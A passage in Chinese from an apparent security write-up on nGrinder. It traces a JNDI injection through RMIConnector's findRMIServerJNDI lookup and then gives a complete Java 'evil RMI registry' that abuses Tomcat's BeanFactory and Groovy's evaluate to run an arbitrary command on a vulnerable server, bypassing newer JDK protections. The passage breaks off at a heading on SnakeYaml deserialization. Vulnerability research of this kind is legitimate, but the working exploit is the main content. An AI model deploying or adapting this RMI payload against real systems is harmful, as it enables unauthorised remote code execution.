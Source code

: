 在这里由于之前拼接的 jmx 是/jndi/开头成功进入到了 javax.management.remote.rmi.RMIConnector#findRMIServerJNDI

```plain
private RMIServer findRMIServerJNDI(String jndiURL, Map<String, ?> env)  
            throws NamingException {  
​  
        InitialContext ctx = new InitialContext(EnvHelp.mapToHashtable(env));  
​  
        Object objref = ctx.lookup(jndiURL);  
        ctx.close();  
​  
        return narrowJRMPServer(objref);  
    }
```

在这里进行了 lookup，jndiURL 中 ip 可控，存在 jndi 注入

### 高版本利用

且 ngrinder 环境存在存在 tomcat 包+groovy 包，可以构造恶意 rmi 绕 jdk 高版本 jdk RMI + JNDI Reference 攻击的限制  
如下：

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Test {
    public static void main(String args[]) throws Exception{

        int port = Integer.parseInt(args[0]);
        String cmd = args[1];

        Registry registry = LocateRegistry.createRegistry(port);
        System.out.println("Creating evil RMI registry on port "+port);
        System.out.println("The command you want to execute is "+cmd);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        String script = String.format("'%s'.execute()", cmd);
        ref.add(new StringRefAddr("x",script));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("rmi://0.0.0.0:13243/jmxrmi", referenceWrapper);

    }
}
```

## 未授权 SnakeYaml 反序列化
